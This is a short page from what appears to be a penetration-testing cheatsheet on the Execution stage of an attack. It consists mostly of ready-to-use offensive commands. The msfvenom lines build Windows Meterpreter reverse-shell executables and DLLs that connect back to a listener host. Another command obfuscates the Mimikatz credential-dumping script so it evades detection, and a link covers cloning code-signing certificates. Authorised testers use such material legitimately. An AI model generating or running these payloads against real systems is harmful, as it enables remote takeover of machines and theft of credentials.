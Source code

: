 ```yaml
---
layout: post
title: TA0002 Execution
category: pen
parent: cheatsheets
modified_date: 2023-07-16
permalink: /pen/win/build
---
```


**Mitre Att&ck Entreprise**: [TA0002 - Execution](https://attack.mitre.org/tactics/TA0002/)

**Menu**
<!-- vscode-markdown-toc -->
* [msfvenom](#msfvenom)
* [sign](#sign)
* [obfuscate](#obfuscate)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='msfvenom'></a>msfvenom
pbuild = payload build
```sh
#? generate msfvenom payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f exe > /tmp/meter-rtcp-192.168.156.1-80.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f dll > /tmp/meter-rtcp-192.168.156.1-80.dll
```

## <a name='sign'></a>sign
psign = payload sign
* [code signing certificates cloning](https://posts.specterops.io/code-signing-certificate-cloning-attacks-and-defenses-6f98657fc6ec)

## <a name='obfuscate'></a>obfuscate
```sh
# PyFuscation (https://github.com/CBHue/PyFuscation) bring small usefull features
python3 PyFuscation.py -fvp --ps ./Scripts/Invoke-Mimikatz.ps1
```
